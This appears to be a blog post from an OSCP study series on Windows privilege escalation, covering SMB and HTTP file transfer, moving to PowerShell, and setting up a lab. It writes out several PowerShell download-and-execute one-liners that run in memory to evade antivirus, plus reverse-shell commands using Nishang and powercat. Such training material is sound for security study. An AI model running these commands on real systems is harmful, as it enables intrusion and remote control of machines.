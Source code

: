 ```yaml
---
title: OSCP Windows PrivEsc - Part 1
description: Windows Privilege Escalation for OSCP
categories: [oscp]
tags: [oscp, Offensive Security]
---
```


As stated in the [OSCP Review Post](/oscp/OSCP-Review), I came across many good resources for Linux Privilege Escalation but there were just a few for Windows. [lpeworkshop](https://github.com/sagishahar/lpeworkshop) being one of those, lacks a good walkthrough. In this writeup, we will take a look at file transfer over smb and http, how to migrate to PowerShell from a standard cmd shell and lpeworkshop setup.
{: .text-justify}

---
## File transfer over SMB

While there are numerous methods to transfer files from your host Kali to victim Windows, I found SMB to be the most reliable one. 
- Install impacket on your kali (It comes preinstalled most of the times, located at /usr/share/impacket/examples/).
- Start the SMB server by running `smbserver.py`:  
![image-center](/assets/images/oscp/1/smbshare.png)
This will share the `/tmp/smbshare` directory over smb as `myshare`.
- All the files inside `/tmp/smbshare` can now directly be accessed on the victim windows:  
![image-center](/assets/images/oscp/1/smbshare1.png)
- For more convenience, this SMB share can be  mounted directly on the windows as a drive:
	- Check currently mounted shares by running `net use`:
	- Mount your `myshare` as drive `Z` (or any other letter) using the command
	`net use Z: \\<IP>\myshare`
		![image-center](/assets/images/oscp/1/smbmount.png)
- Now, you can simply change dir to `Z` and browse the shared files as a drive on the victim system.  
![image-center](/assets/images/oscp/1/smbmount2.png)
- The mount can be disconnected with command `net use Z: /d` and deleted with `net use Z: /delete` once you are done with it.   
{: .text-justify}

Another easy way to transfer files is over http using python's SimpleHTTPServer or Apache. We will take a look at it and download files using PowerShell in the following section.
{: .text-justify}

---
## Upgrading to PowerShell from cmd

PowerShell provides an easy way to perform post exploitation and privilege escalation activities with the help of various PS modules. Three of the most useful modules that I came across were: [Powercat](https://github.com/besimorhino/powercat), [Nishang's Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [Powersploit's PowerUp.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)   
{: .text-justify}

While most of the newer Windows OS have a functional antivirus monitoring and prohibiting the execution of programs from storage, PowerShell provides us with an option to bypass this and run programs directly from the memory. This can help us evade the antivirus and easily run exploits or post-exploitation modules.
{: .text-justify}

In short, we need to execute either `Invoke-PowerShellTcp.ps1` or `Powercat.ps1` on victim to get an interactive PowerShell.
There are two methods to do this:
1. Download and Invoke the modules over HTTP: Using this method, we will download the modules to memory and invoke them without touching the disk. This can help us evade Windows Antivirus.
2. Invoke the modules locally: This method can be used to invoke the ps1 modules when you have local access to those modules on  victim system. Since we are executing the modules from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. 
{: .text-justify}

## Method 1: Download and Invoke the modules over HTTP

As a general example, we can download and execute any file on the victim using following steps:  
1. Share your files using python's `SimpleHTTPServer` or Apache.   
![image-center](/assets/images/oscp/1/http1.png)
2. On the victim's cmd shell, execute the command:
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/testfile'))"`
This downloads `testfile` and executes it in the memory.  
![image-center](/assets/images/oscp/1/http2.png)
{: .text-justify}

### Reverse shell using Invoke-PowerShellTcp.ps1

1. Start python's `SimpleHTTPServer` and copy the `Invoke-PowerShellTcp.ps1` to that directory.   
![image-center](/assets/images/oscp/1/httpps1.png)
2. Start netcat listener on your Kali.
3. On the victim:  
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`   
![image-center](/assets/images/oscp/1/httpps2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/httpps3.png) 
{: .text-justify}

### Command breakdown
  
`powershell.exe -nop -ep bypass -c "<Command>"` : We are executing powershell using three arguments:
1. `-nop` or `NoProfile` : Currently active user’s profile will not be loaded.
2. `-ep bypass` or `-ExecutionPolicy Bypass` : Execution Policy restricts script execution on most systems on the default setting. This can be overcome by giving Bypass value to the value of -ExecutionPolicy parameter. 
3. `-c` or `-Command` : Specify a command to be executed.   
{: .text-justify}

* Bonus: you can append the the execution command to your `ps1` module and avoid one extra step.  
Example for `Invoke-PowerShellTcp.ps1`:
![image-center](/assets/images/oscp/1/Invoke-ps1.png)
This way, your final command for reverse shell would just be downloading and auto-invoking the module, you don't have to pass the arguments anymore.  
Final command:   `powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Invoke-PowerShellTcp.ps1'))`
{: .text-justify}

### Reverse shell using Powercat

[Update: Windows 10 AV detects powercat even with this method, Nishang's Invoke-PowerShellTcp.ps1 works, so prefer using that]
1. Start python's `SimpleHTTPServer` and copy the `Powercat.ps1` to that directory.   
![image-center](/assets/images/oscp/1/pcat1.png)
2. Start netcat listener on your Kali (prefer using standard ports such as 80,443,53 since they have less chances of being blacklisted on the victim's firewall).
3. On the victim:  
`powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://<IP>/Powercat.ps1'));powercat -c <IP> -p <Port> -ep"`   
![image-center](/assets/images/oscp/1/pcat2.png)
4. This sends an interactive reverse PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/pcat3.png)  
{: .text-justify}  

An important thing to keep in mind is that both Powercat and Nishang modules are not just limited to reverse shells but also provide a lot of other useful functionality. Now that we know how to execute these modules, you should further look at the additional features and decide which benefit you the most.
{: .text-justify}

## Method 2: Invoking modules locally: using SMB (Gets blocked by Windows AV)

This method can be used to invoke ps1 modules locally on your victim system. Since we are executing the scripts from storage (drive Z), it has a good chance of getting blocked by the Windows Antivirus. We will take a look at how to send reverse PowerShell using Invoke-PowerShellTcp.ps1:  
1. On your Kali, copy `Invoke-PowerShellTcp.ps1` inside `myshare` and start the smbserver. 
2. Start netcat listener on Kali.
3. You can mount the smbshare as Z, change dir to Z, and execute the script with command:
`powershell.exe -nop -ep bypass -c "Import-Module .\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>"`
![image-center](/assets/images/oscp/1/ps2.png)
(Note: I disabled windows AV for this exercise)
4. This sends a fully interactive PowerShell to our kali on port 443:  
![image-center](/assets/images/oscp/1/ps3.png)
{: .text-justify}

---

## lpeworkshop

For the setup, we need three things:
1. Windows 7/10
We can grab a free copy of Windows Evaluation versions directly from [Microsoft](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/) or from [magnetikonline's github repo](https://github.com/magnetikonline/linux-microsoft-ie-virtual-machines). Prefer getting a Windows 7 as this workshop was developed and tested on a Windows 7 (SP1) x64 host. 
2. [Windows Exercises Setup Script](https://github.com/sagishahar/lpeworkshop/blob/master/lpe_windows_setup.bat)
3. [Tools for Windows Exercises](https://drive.google.com/file/d/1Lgg3HXXltB7ZD3F5YSbRl6FX7h_mPzFU/view?usp=sharing) (7z archive password: lpeworkshop)  
{: .text-justify}

[Note: Take a snapshot of the windows VM before starting the setup]  
The setup is fairly simple: Copy the lpe_windows_setup.bat script to VM and run it as an Administrator. A few exercises will not be setup (1,9,11,13) as those are platform specific and are not included in the setup script.
{: .text-justify}

In the next part, we will go through the exercises from lpeworkshop and see how we can identify and exploit the vulnerabilties with the help of `PowerUp.ps1` 
{: .text-justify}

---
## Additional resources

- [Windows PrivEsc using powershell](https://hacknpentest.com/windows-privilege-escalation-using-powershell/)
- [lpeworkshop walkthrough by J3rryBl4nks](https://github.com/J3rryBl4nks/LPEWalkthrough)